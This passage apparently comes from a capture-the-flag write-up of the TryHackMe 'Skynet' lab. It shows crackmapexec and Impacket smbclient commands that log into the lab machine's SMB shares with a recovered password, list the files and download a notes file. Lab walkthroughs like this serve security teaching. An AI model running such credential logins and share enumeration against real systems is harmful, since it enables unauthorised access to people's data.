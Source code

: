 #### Get password in txt from SMB share

Check shares

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ cme smb 10.10.131.237 -u milesdyson -p ')s{A&2Z=F^n_E.B`' --shares
SMB         10.10.131.237   445    SKYNET           [*] Windows 6.1 (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.131.237   445    SKYNET           [+] \milesdyson:)s{A&2Z=F^n_E.B`
SMB         10.10.131.237   445    SKYNET           [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.131.237   445    SKYNET           [+] Enumerated shares
SMB         10.10.131.237   445    SKYNET           Share           Permissions     Remark
SMB         10.10.131.237   445    SKYNET           -----           -----------     ------
SMB         10.10.131.237   445    SKYNET           print$          READ            Printer Drivers
SMB         10.10.131.237   445    SKYNET           anonymous       READ            Skynet Anonymous Share
SMB         10.10.131.237   445    SKYNET           milesdyson      READ            Miles Dyson Personal Share
SMB         10.10.131.237   445    SKYNET           IPC$                            IPC Service (skynet server (Samba, Ubuntu))
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ smbclient.py milesdyson:')s{A&2Z=F^n_E.B`'@10.10.131.237
Impacket v0.10.1.dev1+20230616.115447.d1f16d8 - Copyright 2022 Fortra

Type help for list of commands
# use milesdyson
ls
# ls
drw-rw-rw-          0  Tue Sep 17 05:05:47 2019 .
drw-rw-rw-          0  Tue Sep 17 23:51:02 2019 ..
-rw-rw-rw-    5743095  Tue Sep 17 05:05:14 2019 Improving Deep Neural Networks.pdf
-rw-rw-rw-   12927230  Tue Sep 17 05:05:14 2019 Natural Language Processing-Building Sequence Models.pdf
-rw-rw-rw-   19655446  Tue Sep 17 05:05:14 2019 Convolutional Neural Networks-CNN.pdf
drw-rw-rw-          0  Tue Sep 17 05:18:40 2019 notes
-rw-rw-rw-    4304586  Tue Sep 17 05:05:14 2019 Neural Networks and Deep Learning.pdf
-rw-rw-rw-    3531427  Tue Sep 17 05:05:14 2019 Structuring your Machine Learning Project.pdf
# cd notes
# ls
drw-rw-rw-          0  Tue Sep 17 05:18:40 2019 .
drw-rw-rw-          0  Tue Sep 17 05:05:47 2019 ..
-rw-rw-rw-      65601  Tue Sep 17 05:01:29 2019 3.01 Search.md
-rw-rw-rw-       5683  Tue Sep 17 05:01:29 2019 4.01 Agent-Based Models.md
-rw-rw-rw-       7949  Tue Sep 17 05:01:29 2019 2.08 In Practice.md
-rw-rw-rw-       3114  Tue Sep 17 05:01:29 2019 0.00 Cover.md
-rw-rw-rw-      70314  Tue Sep 17 05:01:29 2019 1.02 Linear Algebra.md
-rw-rw-rw-        117  Tue Sep 17 05:18:39 2019 important.txt
-rw-rw-rw-       9221  Tue Sep 17 05:01:29 2019 6.01 pandas.md
-rw-rw-rw-         33  Tue Sep 17 05:01:29 2019 3.00 Artificial Intelligence.md
...
# get important.txt
```
